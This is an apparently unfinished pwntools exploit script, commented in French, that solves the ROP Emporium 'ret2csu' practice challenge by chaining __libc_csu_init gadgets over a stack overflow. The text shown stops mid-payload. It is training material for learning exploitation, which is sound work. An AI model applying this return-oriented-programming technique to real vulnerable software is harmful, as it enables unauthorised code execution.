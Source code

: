 
The python script :
``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break a le fin de pwnme
gs='''
b *pwnme+150
b *ret2win
c
'''


# Set up pwntools for the correct architecture
elf =  ELF('ret2csu')
context.binary=elf
# context(terminal=['tmux'])

# Offset avant ecrasement de l'adresse de retour
offset=0x28

ret2win=elf.plt['ret2win']

dynamic_s = elf.get_section_by_name('.dynamic').header['sh_addr']

# Gadgets
# mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]
call_gadget=0x00400680
#
#0x000000000040069a : pop rbx; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
pops_gadget=0x0040069a

g_poprdi=0x004006a3


io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

# io.recvuntil(b"> ")

log.info(f".fini entry : 0x{dynamic_s+0x48:x}")

PL =b"A"*offset
PL+=p64(pops_gadget)
PL+=p64(0)                   # rbx = 0
PL+=p64(1)                   # rbp == rbx + 1
PL+=p64(dynamic_s+0x48)           # r12 .dynamics+48
PL+=p64(0xdeadbeefdeadbeef)  # r13
PL+=p64(0xcafebabecafebabe)  # r14
PL+=p64(0xd00df00dd00df00d)  # r15
PL+=p64(call_gadget)
PL+=p64(0)
PL+=p64(1)
PL+=p64(2)
PL+=p64(3)
PL+=p64(4)
PL+=p64(5)
PL+=p64(6)
```